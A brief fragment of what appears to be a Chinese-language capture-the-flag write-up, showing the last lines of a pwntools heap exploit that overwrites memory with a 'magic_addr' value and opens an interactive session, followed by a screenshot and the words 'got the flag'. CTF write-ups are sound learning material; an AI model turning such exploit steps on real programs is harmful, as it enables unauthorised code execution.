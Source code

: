 ```python
edit(3, 0x10, p64(magic_addr) * 2)
p.recv()
#gdb.attach(p)
#pause()
p.interactive()												# 输入5执行漏洞程序

```

![image-20211012003455672](https://te4p0t.github.io/assets/images/2021-10/image-20211012003455672.png)

拿到flag
